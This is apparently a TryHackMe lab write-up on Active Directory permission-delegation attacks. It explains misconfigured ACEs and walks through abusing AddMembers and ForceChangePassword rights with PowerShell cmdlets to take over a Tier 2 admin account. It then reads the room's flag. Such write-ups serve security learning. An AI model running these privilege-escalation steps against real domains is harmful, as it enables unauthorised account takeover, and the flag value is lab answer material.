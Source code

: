 # Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation.

- Exploits are referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populate Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- Any AD object can be secured with ACE
- ACEs describe the allowed/denied permissions that any other AD object has against the target object

- if any ACEs are misconfigured, it may be possible for an attacker to exploit them

Example:
- IT Support team are granted ForceChangePassword ACE over Domain Users group, this would be considered insecure
- Misconfiguration would allow them to reset passwords for privileged accounts

# Exploiting ACEs
- Significant amount of ACEs can be misconfigured

- Bloodhound documentation assists in explaining enumerated ACEs and how they can be exploited

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

### ForceChangePassword
- Ability to set the user's current password without knowing their current password

### AddMembers
- Ability to add users, groups, or computers to the target group

### GenericAll
- Control over the object
- Ability to change the user's password, register an SPN
- Add AD object to the target group

### Generic Write
- Update any non-protected parameters of our target object
- Update the scriptPath parameter, which would cause a script to execute the next time the user logs on

### Write Owner
- Ability to update the owner of the target object
- Ability to assign ourselves as the owner, allowing us to gain additional permissions over the object

### Write DACL
- Ability to write new ACEs to the target object DACL
- Write ACE that grants our account full control over the target object

### AllExtendedRights
- Perform any action associated with extended AD rights against the target object



In order to exploit these ACEs, we need a method to interact with AD to make these requests:
- AD-RSAT PowerShell
- PowerSploit

# Bloodhound
Use the files provided in the room and upload to Bloodhound

<pre>sudo neo4j console start </pre>

![Alt text](../../Images/Bloodhound.png)

# Privilege Escalation

- justin.barnes is a `MemberOf` domain za.tryhackme.loc and 'CanRDP' to THMWRK1
- Domain is tiered
- Tier 0 > Tier 1 > Tier 2
- Need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations
- Add justin.barnes as the start position
- Add Tier 2 Admins group as the end position

- justin.barnes is a `MemberOf` `DOMAIN USERS@ZA.TRYHACKME.LOC`
- Group has `GenericWrite` permissions on `IT Support@ZA.TRYHACKME.LOC` group

If a user/group has `GenericWrite` permissions on a group object in Active Directory, they would be able to modify non-security attributes of that group, including adding themselves to the group.

![Alt text](<../../Images/Justin Barnes Membership.png>)

- Administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with AddMembers ACE
- Any member of the Domain Users group can add accounts to the IT Support group
- IT Support group has the `ForceChangePassword` ACE for Tier 2 Admin group members

![Alt text](<../../Images/Justin Barnes Membership 2.png>)

## AddMembers
- Add our AD account (justin.barnes) to IT Support group

<pre>PS C:\>Add-ADGroupMember "IT Support" -Members "justin.barnes" </pre>

- Verify that justin.barnes has been added to IT Support group

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "IT Support" | select name

name             
----
brenda.black
reece.noble
paula.bailey
barbara.reid
christine.hall
irene.leach
ruth.dale
adrian.boyle
michael.cameron
nicholas.pearson
justin.barnes
max.smith
 </pre>

 ## ForceChangePassword
- justin.barnes is now a member of IT Support group
- Inherit the ForceChangePassword Permission Delegation over Tier 2 Admin group
- Identify the members of this group to select a target

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "Tier 2 Admins" | select name

name               
----
t2_lawrence.lewis
t2_leon.francis
t2_henry.harvey
t2_june.russell
t2_kathleen.mills
t2_irene.nash
t2_henry.shaw
t2_alan.riley
t2_jordan.hawkins
t2_ross.bird
t2_robin.wyatt
t2_caroline.dawson
t2_melanie.davies
 </pre>

 - Target account: t2_robin.wyatt
 - Use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password

 <pre>PS C:\Users\justin.barnes> $Password = ConvertTo-SecureString "Password.123" -AsPlainText -Force

PS C:\Users\justin.barnes> Set-ADAccountPassword -Identity "t2_robin.wyatt" -Reset -NewPassword $Password </pre>

- Authenticate to THMWRK1 (10.200.63.248) using account t2_robin.wyatt

<pre>ssh t2_robin.wyatt@10.200.63.248</pre>

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>whoami
za\t2_robin.wyatt</pre>

What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?
<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>cd C:\Users\Administrator\Desktop

za\t2_robin.wyatt@THMWRK1 C:\Users\Administrator\Desktop>more flag1.txt
THM{Permission.Delegation.FTW!}
</pre>
